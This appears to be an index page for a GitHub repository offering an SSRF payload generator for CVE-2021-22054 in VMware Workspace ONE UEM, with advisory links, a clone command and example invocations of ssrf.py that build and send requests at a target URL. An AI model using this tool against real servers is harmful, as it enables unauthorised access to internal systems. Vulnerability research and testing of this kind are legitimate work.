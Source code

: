 # CVE-2021-22054

Generate SSRF payloads

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/MKSx](https://github.com/MKSx) |
| Url      | [https://github.com/MKSx/CVE-2021-22054](https://github.com/MKSx/CVE-2021-22054)                                               |
| Stars    | 4                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* airwatch* cve* cve-2021-22054* python* vmware

</details>

## Readme

# CVE-2021-22054
Generate SSRF payloads

#### References
https://blog.assetnote.io/2022/04/27/advisory-vmware-workspace-one-uem/

https://blog.assetnote.io/2022/04/27/vmware-workspace-one-uem-ssrf/

#### Examples
```bash

# generate POC
python3 ssrf.py --url https://target.com --url https://example.com --airwatch
python3 ssrf.py --url https://target.com --url https://example.com

# generate PPOC and send request
python3 ssrf.py --url https://target.com --url https://example.com --airwatch --request --proxy http://127.0.0.1:8080
python3 ssrf.py --url https://target.com --url https://example.com --airwatch --request --method POST --data '{"a":1}' -H 'Content-Type: application/json" --debug-headers
```

![image](https://user-images.githubusercontent.com/17793927/171933588-1b8d92f4-c751-40ca-a6bc-ad2102022bcf.png)

![image](https://user-images.githubusercontent.com/17793927/171933638-a0be0782-32cc-41db-b892-b49a9adcd574.png)



## Get the content

```
git clone https://github.com/MKSx/CVE-2021-22054
cd CVE-2021-22054
```

{% embed url="https://github.com/MKSx/CVE-2021-22054" %}

<figure><img src="https://avatars.githubusercontent.com/u/17793927?v=4" alt=""><figcaption><p>MKSx</p></figcaption></figure>

